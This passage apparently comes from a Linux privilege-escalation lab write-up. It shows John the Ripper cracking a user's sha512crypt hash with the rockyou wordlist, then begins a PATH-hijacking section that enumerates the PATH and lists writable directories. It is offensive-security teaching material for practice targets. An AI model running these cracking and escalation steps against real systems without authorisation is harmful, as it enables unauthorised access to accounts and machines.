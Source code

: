 ```
john --wordlist=/usr/share/wordlists/rockyou.txt crackmatt.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Soon after I am confident you'll get the password!

# Privilege Escalation: PATH

We can potentially abuse the way the OS searches for executables via the `PATH` environment variable, because it holds the literal paths where the OS will look. Let's take a look at what's available to us:

```
$ echo $PATH
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ pwd
/
$ bash
karen@ip-10-10-61-31:/$ ls home/
matt/    murdoch/ ubuntu/  

```

We can search for writeable folders using `find / -writable 2>/dev/null`, but we can also leverage `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -` which filters out procs and gives us a cleaner output:

```
dev/char
dev/fd
dev/full
dev/fuse
dev/log
dev/mqueue
dev/net
dev/null
dev/ptmx
dev/pts
dev/random
dev/shm
dev/stderr
dev/stdin
dev/stdout
dev/tty
dev/urandom
dev/zero
etc/udev
home/murdoch
run/acpid.socket
run/dbus
run/lock
run/screen
run/shm
run/snapd-snap.socket
run/snapd.socket
run/systemd
run/user
run/uuidd
snap/core
snap/core18
```